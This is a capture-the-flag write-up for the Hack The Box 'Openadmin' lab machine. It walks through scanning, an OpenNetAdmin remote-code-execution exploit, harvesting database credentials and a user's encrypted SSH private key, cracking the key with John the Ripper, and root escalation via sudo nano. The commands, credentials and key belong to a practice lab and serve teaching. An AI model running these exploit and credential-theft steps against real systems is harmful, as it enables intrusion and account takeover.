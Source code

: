 # Openadmin
Box IP **10.10.10.171**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v openadmin.htb
```

### Services
```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Fuzzing

Trying to fuzz for web directories

```bash
$ gobuster dir -u "http://10.10.10.171" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.log
```

we find a website **/marga** and **/ona** the OpenNetAdmin page, where an alert shows up complaining about the installed version

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Openadmin/src/1.png" alt="1" />
</p>


### Getting a shell

Searching for **OpenNetAdmin** we find two exploits for a RCE vulnerability
- [47772](https://www.exploit-db.com/exploits/47772)
- [47691](https://www.exploit-db.com/exploits/47691)

We get a shell as **www-data** and we find two usernames
```
$ ./47691.sh 10.10.10.171/ona/
$ whoami
www-data
$ ls /home
jimmy
joanna
```

### Search for interesting files

By searching for config files
```
$ find . -type f -name "config*"
./config/config.inc.php
./workspace_plugins/builtin/host_actions/config.inc.php
./config_dnld.php
./modules/ona/configuration.inc.php
```

and catting **config.inc.php** we find 2 interesting references to files
**/var/log/ona.log**
**/local/config/database_settings.inc.php**

we got some DB creds **ona_sys:n1nj4W4rri0R!**
```
$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

### SSH jimmy

By password spraying with the two users we successfully SSHing as **jimmy** but we got no user.txt flag

In **/var/www/internal** we got **login.php**, **logout.php** and **main.php**

where a successfully login in **login.php** leads to **main.php**
```php
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
}
```

and the joanna SSH key is catted

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

By looking at listening services

```bash
$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6      70      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -  
```

where 3306 is mysql and 52846 is our service!

This is also confirmed in

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Openadmin/src/2.png" alt="1" />
</p>

We get **joanna** encrypted key by curling http://127.0.0.1:52846/main.php

```
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

### SSH joanna

We crack the encrypted key with john
```bash
$ locate ssh2john.py
$ python /usr/share/john/ssh2john.py prvJoanna > prvJoanna.hash
$ john -wordlist:/usr/share/wordlists/rockyou.txt prvJoanna.hash
```

and we get the password **bloodninjas**

By SSHing we got joanna shell and the **user.txt**
```
$ ssh -i prvJoanna joanna@openadmin.htb
```

### Privilege Escalation

Joanna can nano /opt/priv as super user without requiring password

```bash
$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

As [gtfobins](https://gtfobins.github.io/gtfobins/nano/) suggests we can
- Spawn a [shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#nano)
- [Read](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#nano) **root.txt**
- [Write](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#nano) [/etc/sudoers](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Linux#sudoers) and then **sudo su**


<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Openadmin/src/3.png" alt="1" />
</p>



If you liked this write-up, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
